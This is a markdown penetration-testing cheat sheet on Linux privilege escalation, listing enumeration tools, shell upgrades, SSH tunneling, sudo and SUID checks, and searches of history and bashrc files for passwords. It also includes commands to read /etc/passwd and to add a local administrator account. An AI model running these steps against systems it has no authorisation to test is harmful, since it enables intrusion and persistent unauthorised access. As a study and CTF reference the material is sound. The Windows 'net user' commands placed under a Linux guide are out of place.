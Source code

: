 # Linux Privilege Escalation

## <a href='https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/' target="blank">Basic Linux Privilege Escalation</a>

## Automated Enumeration

``` bash
git clone https://github.com/rebootuser/LinEnum.git

./LinEnum.sh
```

``` bash
git clone https://github.com/diego-treitos/linux-smart-enumeration
```

``` bash
git clone https://github.com/pentestmonkey/unix-privesc-check.git

./unix-privesc-check
./unix-privesc-check standard > output.txt
```

## Upgrade shell

``` bash
/usr/bin/python -c "import pty; pty.spawn('/bin/sh')"
export TERM=xterm

stty raw -echo
fg
```

## <a href='https://www.ssh.com/ssh/tunneling/example' target="blank">Port Tunneling</a>

``` bash
ssh -R $myip:8080:127.0.0.1:8080 kali@$myip
```

## Information Gathering

### What's the OS? What version? What architecture?

``` bash
cat /etc/issue
cat /etc/*-release
uname -i
lsb_release -a (Debian based OSs)
```

### Who are we? Where are we?

``` bash
id
whoami
pwd
```

### Who uses the box? What users? (And which ones have a valid shell)

``` bash
cat /etc/passwd
grep -vE "nologin|false" /etc/passwd
```

### What's currently running on the box? What active network services are there?

``` bash
ps aux
netstat -antup
```

### What's installed? What kernel is being used?

``` bash
dpkg -l (Debian based OSs)
rpm -qa (CentOS / openSUSE )
uname -a
```

## Check sudo access

<a href='https://gtfobins.github.io/' target="blank">GTFOBins</a> 

``` bash
$ sudo -l
[sudo] password for Hades: 
Matching Defaults entries for pentesterlab on 7358cafc3ebe:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User Hades may run the following commands:
    (victim) /bin/bash
```

Mix cp/chown and chmod

https://www.adampalmer.me/iodigitalsec/2009/10/03/linux-c-setuid-setgid-tutorial/

https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/

``` bash
sudo -l
Matching Defaults entries for Hades:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User Hades may run the following commands:
    (victim) /bin/chmod, /bin/cp
```

## Check Scheduled Tasks

<a href='https://github.com/DominicBreuker/pspy' target="blank">pspy</a>

``` bash
ls -lah /etc/cron*
cat /etc/crontab
```

## Readable/Writable Files and Directories

``` bash
find / -writable -type d 2>/dev/null
```

## Check history, bashrc, backup

``` bash
find / -name *history* 2>/dev/null
find / -name *bashrc* -exec grep passwod {} \; 2>/dev/null
```

## Add Local Admin User

``` bash
net user /add pentest Pass
net localgroup administrators pentest /add
```

## Binaries That AutoElevate

``` bash
find / -perm -u=s -type f 2>/dev/null
```

## Unmounted Disks

``` bash
cat /etc/fstab
/bin/lsblk
mount
```

## cat /etc/fstab /bin/lsblk mount

``` bash
lsmod
/sbin/modinfo libata
```